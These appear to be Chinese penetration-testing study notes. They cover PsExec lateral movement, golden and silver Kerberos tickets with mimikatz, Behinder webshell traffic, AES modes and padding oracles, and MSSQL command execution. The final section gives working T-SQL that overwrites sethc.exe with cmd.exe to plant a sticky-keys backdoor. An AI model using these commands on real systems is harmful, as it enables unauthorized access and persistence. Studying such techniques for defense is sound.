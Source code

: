 dir \\win08\\c$

远程登陆，执行命令

PsExec.exe \\win08 cmd.exe

whoami查看权限

## 黄金票据和白银票据

（1）白银票据：抓取到了域控服务hash的情况下，在客户端以一个普通域用户的身份生成TGS票据，并且是针对于某个机器上的某个服务的，生成的白银票据,只能访问指定的target机器中指定的服务。

黄金票据：直接抓取域控中账号的hash，来在client端生成一个TGT票据，那么该票据是针对所有机器的所有服务。

（2）通过mimkatz执行，导出域控中账号的Hash

## php5和php7

preg\_replace()不再支持/e修饰符

create\_function()被废弃

**assert()**默认不在可以执行代码

## 冰蝎的流量分析

payload先base64加密，再经过AES对称加密全部代码，最后传输，经过实际测试，真的开始执行命令了，流量是相当隐蔽

因此解密流量先拿到密钥，接着是AES解密，再接着是base64解密

存在的问题： user-agent老、accept强特征、content-length有规律

## AES解密高低版本区别

AES-GCM可以并行加密解密，AES-CBC的模式决定了它只能串行地进行加密。因为加密是耗时较久的步骤，且加密的方式是相同的，所以并行地实现AES-GCM算法的时候，其效率是高于AES-CBC的；

AES-GCM提供了GMAC信息校验码，用以校验密文的完整性。AES-CBC没有，无法有效地校验密文的完整性；

AES-GCM是流加密的模式，不需要对明文进行填充。AES-CBC是块加密的模式，需要对明文进行填充。(AES-GCM中进行AES加密的是counter，AES-CBC中进行AES加密的是明文块)；

由于AES-CBC中必须要用到padding，导致最后一个明文块与其他密文块不同，因此可能会受到padding Oracle attacks，从而可以直接通过初始向量IV和密码，即可得到明文。

## mssql通过sql注入执行系统命令

XP\_CMDSHELL

SP\_OACREATE

自启动

通过沙盒执行命令提权

## 粘滞键怎么替换的

**sethc.exe替换**(粘滞键)

利用sethc.exe 替换文件提权 **替换c:\\windows\\system32\\下的sethc.exe** declare @o int exec sp\_oacreate 'scripting.filesystemobject', @o out exec sp\_oamethod @o,'copyfile',null, 'c:\\windows\\system32\\cmd.exe','c:\\windows\\system32\\sethc.exe'; **替换c:\\windows\\system32\\dllcache\\sethc.exe** declare @oo int exec sp\_oacreate'scripting.filesystemobject', @oo out exec sp\_oamethod @oo,'copyfile',null,'c:\\windows\\system32\\cmd.exe',' c:\\windows\\system32\\dllcache\\sethc.exe';
